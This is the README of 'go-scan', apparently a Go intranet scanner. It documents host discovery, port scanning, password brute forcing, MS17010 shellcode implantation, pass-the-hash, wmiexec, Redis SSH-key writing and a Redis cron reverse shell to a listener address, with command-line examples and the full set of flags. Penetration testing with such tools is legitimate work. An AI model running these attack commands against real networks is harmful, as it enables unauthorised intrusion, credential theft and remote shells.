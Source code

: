 # go-scan

This tool is an intranet comprehensive scanning solution designed for automated and all-encompassing reconnaissance. It facilitates host
survival detection, port scanning, exploitation of common services, MS17010 vulnerability assessment, Redis batch public key writing,
scheduled task rebound shell, retrieval of Windows network card information, web fingerprint identification, web vulnerability scanning,
netBIOS detection, domain control identification, and various other functions.

# Features

1. **Data Collection**:
    - *Survival Detection (ICMP)*
    - *Port Scanning*

2. **Brute Force Attacks**:
    - *Various Service Brute Force Attacks (SSH, SMB, RDP, etc.)*
    - *Database Password Brute Force Attacks (MySQL, MSSQL, Redis, PSQL, Oracle, etc.)*

3. **System Information and Vulnerability Assessment**:
    - *NetBIOS Detection and Domain Control Identification*
    - *Collection of Network Interface Controller (NIC) Information*
    - *High-Risk Vulnerability Assessment (MS17010, etc.)*

4. **Web Application Detection**:
    - *Web Title Detection*
    - *Web Fingerprinting (CMS, OA Framework, etc.)*
    - *Web Vulnerability Scanning (WebLogic, ST2, etc., also supports Xray PoC)*

5. **Exploitation**:
    - *Writing Redis Public Key and Scheduled Tasks*
    - *Executing SSH Commands*
    - *Utilizing the MS17017 Vulnerability to Implant Shellcode (e.g., adding users)*

6. **Other Actions**:
    - Saving Output Results

# Instructions

Getting Started

```bash
wget https://github.com/devsolux/go-scan/releases/download/v1.0.0/go-scan_mac_arm64
sudo mv go-scan_mac_arm64 /usr/local/bin/go-scan
chmod +x /usr/local/bin/go-scan

go-scan -h 192.168.1.1/24
go-scan -h 192.168.1.1/16
```

Advanced

```bash
go-scan -h 192.168.1.1/24 -np -no -nopoc(Skip survival detection, do not save output result, skip web poc scanning)
go-scan -h 192.168.1.1/24 -rf id_rsa.pub (Redis write public key)
go-scan -h 192.168.1.1/24 -rs 192.168.1.1:6666 (Redis scheduled task rebound shell)
go-scan -h 192.168.1.1/24 -c whoami (Execute ssh command)
go-scan -h 192.168.1.1/24 -m ssh -p 2222 (Specify ssh module and port)
go-scan -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (Load the specified file and password to blast
go-scan -h 192.168.1.1/24 -o /tmp/1.txt (Specify the path to save the scan results, which is saved in the current path by default) 
go-scan -h 192.168.1.1/8  192.x.x.1 and 192.x.x.254 of segment A, convenient for quickly viewing network segment information )
go-scan -h 192.168.1.1/24 -m smb -pwd password (Smb password crash)
go-scan -h 192.168.1.1/24 -m ms17010 (Specified ms17010 module)
go-scan -hf ip.txt  (Import target from file)
go-scan -u https://google.com -proxy 8080 (Scan a url and set http proxy http://127.0.0.1:8080)
go-scan -h 192.168.1.1/24 -nobr -nopoc (Do not blast, do not scan Web poc, to reduce traffic)
go-scan -h 192.168.1.1/24 -pa 3389 (Join 3389->rdp scan)
go-scan -h 192.168.1.1/24 -socks5 127.0.0.1:1080 (Proxy only supports simple tcp functions, and libraries with some functions do not support proxy settings)
go-scan -h 192.168.1.1/24 -m ms17010 -sc add (Built-in functions such as adding users are only applicable to alternative tools, and other special tools for using ms17010 are recommended)
go-scan -h 192.168.1.1/24 -m smb2 -user admin -hash xxxxx (Hash collision)
go-scan -h 192.168.1.1/24 -m wmiexec -user admin -pwd password -c xxxxx(Wmiexec module no echo command execution)
```

Compile command

```
go build -ldflags="-s -w " -trimpath main.go
upx -9 go-scan (Optional, compressed)
```

Full parameters

```
Usage of ./go-scan:
  -br int
        Brute threads (default 1)
  -c string
        exec command (ssh|wmiexec)
  -cookie string
        set poc cookie,-cookie rememberMe=login
  -debug int
        every time to LogErr (default 60)
  -dns
        using dnslog poc
  -domain string
        smb domain
  -full
        poc full scan,as: shiro 100 key
  -h string
        IP address of the host you want to scan,for example: 192.168.11.11 | 192.168.11.11-255 | 192.168.11.11,192.168.11.12
  -hash string
        hash
  -hf string
        host file, -hf ip.txt
  -hn string
        the hosts no scan,as: -hn 192.168.1.1/24
  -m string
        Select scan type ,as: -m ssh (default "all")
  -no
        not to save output log
  -nobr
        not to Brute password
  -nopoc
        not to scan web vul
  -np
        not to ping
  -num int
        poc rate (default 20)
  -o string
        Outputfile (default "result.txt")
  -p string
        Select a port,for example: 22 | 1-65535 | 22,80,3306 (default "21,22,80,81,135,139,443,445,1433,1521,3306,5432,6379,7001,8000,8080,8089,9000,9200,11211,27017")
  -pa string
        add port base DefaultPorts,-pa 3389
  -path string
        fcgi、smb romote file path
  -ping
        using ping replace icmp
  -pn string
        the ports no scan,as: -pn 445
  -pocname string
        use the pocs these contain pocname, -pocname weblogic
  -pocpath string
        poc file path
  -portf string
        Port File
  -proxy string
        set poc proxy, -proxy http://127.0.0.1:8080
  -pwd string
        password
  -pwda string
        add a password base DefaultPasses,-pwda password
  -pwdf string
        password file
  -rf string
        redis file to write sshkey file (as: -rf id_rsa.pub) 
  -rs string
        redis shell to write cron file (as: -rs 192.168.1.1:6666) 
  -sc string
        ms17 shellcode,as -sc add
  -silent
        silent scan
  -socks5 string
        set socks5 proxy, will be used in tcp connection, timeout setting will not work
  -sshkey string
        sshkey file (id_rsa)
  -t int
        Thread nums (default 600)
  -time int
        Set timeout (default 3)
  -top int
        show live len top (default 10)
  -u string
        url
  -uf string
        urlfile
  -user string
        username
  -usera string
        add a user base DefaultUsers,-usera user
  -userf string
        username file
  -wmi
        start wmi
  -wt int
        Set web timeout (default 5)
```

# Examples

`go-scan -h 192.168.x.x  (Open all functions, ms17010, read network card information)`

`go-scan -h 192.168.x.x -rf id_rsa.pub (Redis write public key)`

`go-scan -h 192.168.x.x -c "whoami;id" (ssh command)`

`go-scan -h 192.168.x.x -p80 -proxy http://127.0.0.1:8080 (Support for xray poc)`

`go-scan -h 192.168.x.x -p 139 (Netbios detection, domain control identification, the [+]DC in the figure below represents domain control)`

`go run main.go -h 192.168.x.x/24 -m netbios (Show complete netbios information)`

`go run main.go -h 192.0.0.0/8 -m icmp(Detect the gateway and several random IPs of each segment C, and count the number of surviving top 10 segments B and C)`

